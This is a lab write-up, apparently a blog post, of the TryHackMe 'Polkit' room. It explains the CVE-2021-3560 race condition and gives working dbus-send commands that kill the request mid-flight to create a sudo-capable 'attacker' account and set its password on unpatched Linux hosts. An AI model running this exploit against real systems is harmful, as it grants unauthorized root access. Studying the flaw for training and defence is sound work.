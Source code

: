 ```yaml
---
title: 'TryHackMe: Polkit'
date: 2022-02-13 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-02-13-tryhackme-polkit.html
author: 100007
---
```


# Polkit (CVE-2021-3560)

## Background

CVE-2021-3560 impacted the following distros (at the time of its announcement):

- Red Hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing (“Bullseye”)
- Ubuntu 20.04 LTS (“Focal Fossa”)

Ubuntu fixed with with version 0.105-26ubuntu1.1 of the policykit-1 package (the last vulnerable version was 0.105-26ubuntu1).

This bug is a combination of a race condition and bad error handling. Basically:

- Manually request an action that requires superuser access via DBus.
- Kill `dbus-daemon` _after_ Polkit has received the message but _before_ it responds (there’s the race).
- Polkit requests the user ID associated with the message, but since DBus has restarted it can’t reference the original message ID and responds with an error.
- Polkit mishandles the error, substituting 0 for the ID of the requesting user (there’s the botched error handling).
- Because the requesting user ID now appears to be root, Polkit just goes ahead and takes the action without issuing a challenge.

The race condition is obviously kind of tricky, so best to request something that can perhaps provide some persistence, like the creation of a new user account or changing the password on an existing account.

## Exploitation Process

(0) Construct a message similar to the following:

```
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

The three parameters are:

- `string:attacker` - the name of the user to create.
- `string:"Pentester Account"` - the user “description” (GECOS field).
- `int32:1` - grant sudo access to the user.

(1) Begin by determining how long the message takes to execute on the target. This can be done with the `time` command.

```
time dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

(3) DBus needs to be killed approximately _halfway_ through this execution period. We _cannot_ wait for the application to return, so instead we background it.

```
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1 & \
sleep ${TIME}s; kill $!
```

Here `$TIME` is approximately half the time measured in the previous step.

(4) ID the created user.

```
id attacker
```

(5) Create a new password hash for the user.

```
openssl passwd -6 $PASSWORD
```

(6) Pull the same trick as in step 3, but with setting the created user’s password.

```
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts/User$UID \
	              org.freedesktop.Accounts.User.SetPassword \
	              string:'$PASSWORD_HASH' \
	              string:'Ask the pentester' & \
sleep ${TIME}s; kill $!
```

Here `$UID` is the user ID retrieved in step 4 (note that there’s _no_ space between `User` and the ID, so you’ll be hitting an endpoint that looks something like `/org/freedesktop/Accounts/User1003`), `$PASSWORD_HASH` is the hash returned in step 5, and `$TIME` is the same timing determined from step 3. The second `string` being passed in the user password hint.

(7) Log in as the new user (probably via `su`).

